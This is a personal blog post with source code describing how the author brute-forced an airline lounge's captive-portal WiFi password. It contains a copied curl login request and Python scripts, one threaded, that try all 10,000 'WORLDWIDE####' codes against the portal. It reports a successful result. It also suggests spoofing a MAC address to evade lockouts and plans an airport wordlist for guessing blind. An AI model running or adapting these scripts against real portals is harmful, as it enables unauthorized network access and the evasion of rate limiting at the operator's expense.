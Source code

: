 ```yaml
---
title: "Bruteforcing an airline lounge's WiFi password"
date: 2018-10-09 16:21:49
header-img: "/images/airline-pass.png"
---
```


I'm a frequent traveler and stay in lounges fairly often (shoutout [/r/churning](https://reddit.com/r/churning)!). Most lounges don't use traditional [WiFi Authentication](https://tools.ietf.org/html/rfc4764) - instead they rely on some form of captive gate. This allows them to provide user content, collect a more information on the users of the service, and rotate the password easily.

This is how one could *theoretically* brute force an easily enumerable captive portal password. This is a genericized article that does **not name any airline in particular**.

Let's suppose I had been traveling
Most lounges follow a very similar password schema on a day to day basis. A common one is of the format `WORLDWIDE####`, with a random last 4 digits. This only creates 10,000 unique possible passwords, which is a fairly small search space. Although I had the password in front of me but I wanted to see if I could figure it out using other means.

## Intercepting Network Requests

Chrome trivializes intercepting network requests. Normally I'd man-in-the-middle myself using Burp Suite or Charle's Proxy, but since this was just a site we can use the built in devtools network tab. 

Once submitting a random password the route shows up in devtools.

<img src="/images/airline-network.png">
<p class="footnote">The airline's password attempt route</p>

It looks like it'll return a `302` status if the password is incorrect and (I assumed) a `2XX` when it's correct. Devtools has a handy "Copy as Curl" function that allows you to copy any network request as a curl request just by right-clicking on it. 

<img src="/images/copyascurl.png">
<p class="footnote">Devtools Copy as Curl functionality</p>

```bash
curl 'https://anairline.com/auth/index.html/u' \
-H 'Connection: keep-alive' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'DNT: 1' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36' \
-H 'Sec-Metadata: cause="user-activated", destination="document", site="same-origin"' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' \
-H 'Referer: https://anairline.com/login.html?errmsg=Authentication%20failed' \
-H 'Accept-Encoding: gzip, deflate, br' \
-H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' \
-H 'Cookie: newHP=true; Locale=POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L; SearchInput={"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false};  D3Name=; D3Locator=; CPsession=http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169' \
--data 'user=GLOBAL1111&password=NULL&cmd=authenticate&Login=Sign+in' \
--compressed -v
```
<p class="footnote">Note: Session and User IDs removed</p>

Now that I had the curl request I could play around with the state and paremeters. It looks like the form is actually encoding the password as the username and the password as NULL.

As a sidenote, this **probably** means that any built in password bruteforcing checks with the library they're using *won't* work because we aren't trying the same username with a different password over and over again - we are just iterating over different usernames with the same password. I can't be sure of this but it 

Shell scripting is fine in a pinch but I wanted something more robust. There's a neat utility that'll convert a curl request to Python/Node/PHP [here](https://curl.trillworks.com). Now that I had python code that had valid state I could quickly iterate over all combinations.

```python
import requests

cookies = {
    'newHP': 'true',
    'Locale': 'POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L',
    'SearchInput': '{"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false}',
    'D3Name': '',
    'D3Locator': '',
    'CPsession': 'http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'DNT': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36',
    'Sec-Metadata': 'cause="user-activated", destination="document", site="same-origin"',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'Referer': 'https://anairline.com/login.html?errmsg=Authentication%20failed',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9,it;q=0.8',
}

data = {
  'user': 'GLOBAL1111',
  'password': 'NULL',
  'cmd': 'authenticate',
  'Login': 'Sign in'
}

response = requests.post('https://anairline.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)

```

## Bruteforcing the login

Running the python above returns the exact same as the network request - a `302` redirect, indicating the passphrase was not correct.

I could write a quick wrapper to the request such that it would try all combinations 0000 to 9999.

```python
for i in range(10000):
    attempt = "%04d" % i # h/t /u/paulschreiber
    data = {
      'user': 'WORLDWIDE' + attempt,
      'password': 'NULL',
      'cmd': 'authenticate',
      'Login': 'Sign in'
    }
    response = requests.post('https://anairline.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
    if response.status_code != 302:
        print('Valid passphrase found: WORLDWIDE%s' % attempt)
```

Unfortunately this was pretty slow - it would serialize the attempts, which would not allow an attempt to be made until the previous network request had returned. A little threading magic (and ratelimiting) and we'd be on our way.

```python
import threading 
import time

def brute_force_pass(attempt):
    data = {
      'user': 'WORLDWIDE' + attempt,
      'password': 'NULL',
      'cmd': 'authenticate',
      'Login': 'Sign in'
    }
    response = requests.post('https://anairline.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
    if response.status_code != 302:
        print('Valid passphrase found: WORLDWIDE%s' % attempt)

for i in range(10000):
    attempt = "%04d" % i # h/t /u/paulschreiber
    threading.Thread(target=brute_force_pass, args=[attempt]).start()
    time.sleep(0.05) # sleep for 1/20th of a second so we don't start timing out or running out of sockets
```

Fortunately the captive portal is running locally so the RTT is pretty low, which means that the server replies fairly quickly. At `0.05` seconds (plus overhead) per request we should be able to try the entire search space in just over 8 minutes. 

I left to go grab a rum and coke and by the time I came back it had finished.

<img src="/images/airline-pass.png">
<p class="footnote">The daily password for that airline password</p>

And there you have it! Today's WiFi password is `WORLDWIDE9980`.

The best part about it was that the valid attempt automatically whitelisted that mac address - I didn't even need to type the password in myself.

## Preventing brute force attacks

I was worried I'd run into ratelimiting or start getting `429`'s from the airline. Fortunately that never happend, but I've run into similar services that will lock you out. A good way around this is to spoof your mac address - at that point, there is no way for a router to recognize that it's your device that has made all these attempts, and will allow you to keep doing so uninhibited. 

As an aside spoofing your mac address on the 2018 MacBook Pro's seems to not work any more, so if anyone knows how to do it I'd be very grateful (`sudo ifconfig en0 ether aa:bb:cc:dd:ee:ff` no longer works).

## Conclusions

This also would've been possible to do with BurpSuite and setting up Intruder, but I didn't really want to go to that effort. This was a quick exercise in seeing how easy this would be if I was standing *outside* the lounge, without access to the password. Any online service that uses a captive portal is susceptible to this attack. One of these days I'm planning on building an airport-centric wordlist (i.e. Lounge, WiFi, &lt;airport name&gt;, &lt;airline name&gt;, current year, etc.) so that bruteforcing *without* any preexisting knowledge also becomes feasible.

Overall fairly successful for 10 minutes of work!

Comments can be found on reddit, [here]()